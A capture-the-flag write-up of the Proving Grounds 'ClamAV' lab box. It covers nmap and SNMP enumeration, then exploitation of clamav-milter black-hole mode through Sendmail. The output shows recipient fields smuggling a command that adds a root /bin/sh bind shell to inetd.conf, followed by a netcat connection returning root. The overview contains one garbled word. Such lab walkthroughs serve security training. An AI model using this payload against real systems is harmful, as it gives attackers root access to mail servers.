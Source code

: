```yaml
---
layout: post
title: Proving Grounds- ClamAV
date: 2020-10-27 12:16:22 +0100
description: ClamAV is an easy Linux box featuring an outdated installation of the Clam AntiVirus suite. When the Sendmail mail filter is executed with the blackhole mode enabled it is possible to execute commands remotely due to an insecure popen call.
img: os.jpeg
fig-caption: ClamAV
categories: ProvingGrounds
tags: [Easy, Linux, Practice, CVE]
---
```

## Overview
ClamAV is an easy Lincisnckjds ux box featuring an outdated installation of the Clam AntiVirus suite. When the Sendmail mail filter is executed with the blackhole mode enabled it is possible to execute commands remotely due to an insecure popen call.

## Enumeration
The initial scan reveals a fair number of open ports
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/ClamAV]
└─$ sudo nmap -p- -T4 192.168.200.42
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-02 10:48 BST
Nmap scan report for 192.168.200.42
Host is up (0.093s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```
There are a few distractions on this box, first there is a webserver that leaves a message in binary translating as "The quick brown 🦊 jumps over 13 lazy 🐶.". Further fuzzing on the webserver did not reveal anything of interest. The samba server appears to be running an outdated version of samba, though this did not appear to match any vulnerable versions. Finally SSH appeared to also be running on an unusual port, though this did not appear to be vulnerable either. However the first breakthrough came when enumerating the SNMP port.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/ClamAV]
└─$ snmp-check 192.168.200.42
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 192.168.200.42:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 192.168.200.42
  Hostname                      : 0xbabe.local
  Description                   : Linux 0xbabe.local 2.6.8-4-386 #1 Wed Feb 20 06:15:54 UTC 2008 i686
  Contact                       : Root <root@localhost> (configure /etc/snmp/snmpd.local.conf)
  Location                      : Unknown (configure /etc/snmp/snmpd.local.conf)
  Uptime snmp                   : 00:51:02.25
  Uptime system                 : 00:50:28.76
  System date                   : 2021-7-2 10:38:08.0

....

  3780                  runnable              clamd                 /usr/local/sbin/clamd                      
  3782                  runnable              clamav-milter         /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
  3795                  runnable              nmbd                  /usr/sbin/nmbd        -D
```
As shown we can see ClamAV running with blackhole enabled, this is interesting as we know the name of the box is ClamAV. Also when we query searchsploit for the sendmail server that is running on port 25 we see a reference to clamav-milter with blackhole mode.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/ClamAV]
└─$ searchsploit sendmail                                                                                                                                1 ⨯
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ClamAV Milter 0.92.2 - Blackhole-Mode (Sendmail) Code Execution (Metasploit)                                               | multiple/remote/9913.rb
Sendmail 8.12.8 (BSD) - 'Prescan()' Remote Command Execution                                                               | linux/remote/24.c
....                                                                                                                       | ....
Sendmail 8.9.x/8.10.x/8.11.x/8.12.x - File Locking Denial of Service (1)                                                   | linux/dos/21476.c
Sendmail 8.9.x/8.10.x/8.11.x/8.12.x - File Locking Denial of Service (2)                                                   | linux/dos/21477.c
Sendmail with clamav-milter < 0.91.2 - Remote Command Execution                                                            | multiple/remote/4761.pl
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
## Foothold
We could use metasploit for this attack, but if we attempt first without it and choose the perl script. I had to remove the comments in the script and add the hashbang `#!/usr/bin/perl` then I could execute it with no other changes.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/ClamAV]
└─$ ./4761.pl 192.168.200.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.200.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Fri, 2 Jul 2021 10:33:15 -0400; (No UCE/UBE) logging access from: [192.168.49.200](FAIL)-[192.168.49.200]
250-localhost.localdomain Hello [192.168.49.200], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 162EXFhs004343 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```
From the output it looks like it bound a listener to port `31337`, so when attempting to connect to it using netcat it resulted in a shell.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/ClamAV]
└─$ nc -nv 192.168.200.42 31337
(UNKNOWN) [192.168.200.42] 31337 (?) open
whoami
root
```

## Privilege Escalation

Privilege escalation is not required as we got a root shell directly from the foothold
